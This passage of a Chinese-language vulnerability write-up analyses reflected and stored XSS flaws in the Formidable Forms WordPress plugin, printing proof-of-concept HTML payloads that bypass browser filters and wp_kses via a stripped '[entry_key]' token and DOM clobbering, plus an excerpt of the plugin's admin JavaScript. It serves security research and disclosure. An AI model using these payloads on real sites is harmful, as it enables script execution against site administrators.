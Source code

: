 <br>

**表单预览中的反射型XSS漏洞**

****

如前文所述，由于可以**在after_html和before_html参数中注入自定义的HTML**，我们就可以通过注入一些危险的HTML代码，以此来实现基于POST的XSS攻击。例如下面的表单：

```
&lt;form method="POST" action=" 
&lt;input name="before_html" value="&lt;svg on[entry_key]load=alert(/xss/) /&gt;"&gt; 
&lt;/form&gt;
```



在渲染之前，Formidable会将[entry_key]这一部分删去，这就导致该代码可以绕过浏览器内置的XSS防范机制。



**表单条目存储型XSS漏洞**

****

在WordPress仪表盘中，管理员可以在Formidable表单中查看到用户输入的数据。**尽管wp_kses()函数会对表单中输入的HTML加以筛选，但由于它允许了“id”和“class”HTML属性，因此并不能防范一些具有攻击性的HTML代码，例如&lt;form&gt; HTML标签。**我们可以编写特定的HTML代码，从而让攻击者指定的JavaScript在管理员查看表单条目时执行。

例如：



```
&lt;form id=tinymce&gt;&lt;textarea name=DOM&gt;&lt;/textarea&gt;&lt;/form&gt;
&lt;a&gt;panelInit&lt;/a&gt;
&lt;a id="frm_dyncontent"&gt;&lt;b id="xxxdyn_default_valuexxxxx" class="ui-find-overlay wp-editor-wrap"&gt;overlay&lt;/b&gt;&lt;/a&gt;
&lt;a id=post-visibility-display&gt;vis1&lt;/a&gt;&lt;a id=hidden-post-visibility&gt;vis2&lt;/a&gt;&lt;a id=visibility-radio-private&gt;vis3&lt;/a&gt;
&lt;div id=frm-fid-search-menu&gt;&lt;a id=frm_dynamic_values_tab&gt;zzz&lt;/a&gt;&lt;/div&gt;
&lt;form id=posts-filter method=post action=admin-ajax.php?action=frm_forms_preview&gt;&lt;textarea name=before_html&gt;&amp;lt;svg on[entry_key]load=alert(/xss/) /&amp;gt;&lt;/textarea&gt;&lt;/form&gt;
```



上述代码中的“id”和“class”属性会由Formidable的初始化JavaScript（formidable_admin.js）来专门处理。如果存在包含“frm_field_list”类的元素，则会执行frmAdminBuild.panelInit()函数。

而在该函数的末尾，如果发现存在“tinymce”对象，就会添加某些事件处理程序（Event Handlers）：

```
if(typeof(tinymce)=='object')`{` 
    // ... 
    jQuery('#frm_dyncontent').on('mouseover mouseout', '.wp-editor-wrap', function(e)`{` 
        // ... 
        toggleAllowedShortcodes(this.id.slice(3,-5),'focusin'); 
    `}` 
        
`}`
```

